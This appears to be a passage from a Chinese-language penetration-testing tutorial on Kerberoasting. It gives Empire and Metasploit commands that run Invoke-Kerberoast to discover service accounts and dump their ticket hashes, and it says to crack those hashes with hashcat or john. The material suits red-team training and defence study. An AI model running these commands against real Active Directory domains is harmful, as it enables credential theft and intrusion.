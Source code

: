 #### invoke\_kerberoast 模块

该模块可以进行 `SPN` 发现、转储 `TGS`、获取 `HASH` 一键化

```plain
usemodule powershell_credentials_invoke_kerberoast
execute
```

[![](assets/1708919803-62a8ed82183bda55a4cb45fd5a9cb27a.png)](https://xzfile.aliyuncs.com/media/upload/picture/20240218142244-2084bffc-ce26-1.png)

获取到之后，使用`hahscat`或者`john`破解即可

### 使用 Metasploit

```plain
load powershell 
powershell_import Invoke-Kerberoast.ps1
powershell_execute Invoke-Kerberoast
```
